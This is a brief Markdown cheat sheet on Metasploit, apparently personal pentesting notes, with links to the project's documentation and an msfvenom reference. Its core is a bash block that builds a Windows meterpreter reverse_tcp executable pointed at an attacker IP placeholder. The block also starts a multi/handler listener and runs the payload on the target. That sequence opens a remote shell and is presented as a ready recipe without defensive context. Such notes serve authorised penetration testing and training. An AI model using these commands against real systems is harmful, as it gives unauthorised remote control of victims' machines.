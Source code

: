 # Metasploit

- [Metasploit](#metasploit)
  - [msfvenom](#msfvenom)
  - [Reverse shell handler](#reverse-shell-handler)

> **Github:** https://github.com/rapid7/metasploit-framework
> **Documentations:** https://docs.metasploit.com/

## msfvenom

Msfvenom is a Metasploit standalone payload generator.

> **Cheatsheet:** https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom

## Reverse shell handler

```bash
# create payload and upload it on the target
msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=4444 -f exe > rs.exe

# Host - msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
run 

# target
.\rs.exe
```
